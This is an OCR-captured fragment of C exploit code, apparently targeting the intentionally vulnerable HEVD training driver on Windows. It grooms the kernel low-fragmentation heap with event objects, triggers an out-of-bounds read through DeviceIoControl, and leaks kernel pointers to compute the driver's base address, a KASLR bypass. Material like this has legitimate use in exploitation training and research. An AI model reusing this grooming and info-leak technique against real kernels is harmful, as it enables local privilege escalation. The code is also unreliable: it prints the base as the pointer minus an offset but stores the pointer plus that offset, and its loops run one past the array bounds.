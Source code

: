 ```c

		printf("[+] Allocated objects containing a pointer to HEVD in place of the freed CreateEventA objects!\n");

		// Close the rest of the event objects
		for (int i = 1; i <= 5000; i += 2)
		{
			BOOL tempHandle2 = CloseHandle(
				eventObjects[i]
			);

			eventObjects[i] = NULL;

			// Error handling
			if (!tempHandle2)
			{
				printf("[-] Error! Unable to free the rest of the CreateEventA objects! Error: 0x%lx\n", GetLastError());
				exit(-1);
			}
		}

		// Array to store the buffer (output buffer for DeviceIoControl) and the base address
		unsigned long long outputBuffer[100];
		unsigned long long hevdBase;

		// Everything is now, theoretically, [FREE, UAFOBJ, FREE, UAFOBJ, FREE, UAFOBJ], barring any more randomization from the kLFH
		// Fill some of the holes, but not all, with vulnerable chunks that can read out-of-bounds (we don't want to fill up all the way to avoid reading from a page that isn't mapped)

		for (int i = 0; i <= 100; i++)
		{
			// Return buffer
			DWORD bytesReturned1;

			DeviceIoControl(
				driverHandle,
				0x0022204f,
				NULL,
				0,
				&outputBuffer,
				sizeof(outputBuffer),
				&bytesReturned1,
				NULL
			);

		}

		printf("[+] Successfully triggered the out-of-bounds read!\n");

		// Parse the output
		for (int i = 0; i <= 100; i++)
		{
			// Kernel mode address?
			if ((outputBuffer[i] & 0xfffff00000000000) == 0xfffff00000000000)
			{
				printf("[+] Address of function pointer in HEVD.sys: 0x%llx\n", outputBuffer[i]);
				printf("[+] Base address of HEVD.sys: 0x%llx\n", outputBuffer[i] - 0x880CC);

				// Store the variable for future usage
				hevdBase = outputBuffer[i] + 0x880CC;
				break;
```